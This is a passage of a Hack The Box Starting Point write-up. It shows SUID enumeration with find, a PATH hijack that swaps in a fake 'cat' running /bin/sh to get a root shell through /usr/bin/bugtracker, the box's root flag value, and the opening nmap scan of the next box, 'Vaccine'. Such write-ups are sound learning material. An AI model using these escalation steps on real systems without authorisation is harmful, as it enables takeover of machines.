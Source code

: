 16. There is a way to track all the files in / that have the SUID set

    ```bash
    find / -perm -4000 -type f 2>/dev/null
    ```

18. Now we know that the **/usr/bin/bugtracker** ran **cat** as **root** privilege, we can **modify the $PATH** environment variable to masquerade the **/bin/cat** as **/tmp/cat**, so that /tmp/cat would be ran when calling `cat`

    ```bash
    echo $PATH #check $PATH
    export PATH=/tmp:$PATH #concatenate /tmp in front of $PATH
    touch /tmp/cat #create our own cat to run any command
    chmod +x /tmp/cat #to make it executable
    echo "/bin/sh" > /tmp/cat #command to create a shell, in this case it would be a root shell
    ```

    ![](../assets/img/htb-starting-point/37.png)

20. Now run the **/usr/bin/bugtracker** again, it would generate a root shell! The flag is in `/root/root.txt`, use `/bin/cat /root/root.txt ` to print as running `cat` would call `/tmp/cat` (af13b0bee69f8a877c3faf667f7beacf)

    ![](../assets/img/htb-starting-point/38.png)

# 2.3 Vaccine

1. nmap scan

   ```
   nmap -sCV 10.129.112.178
   ```
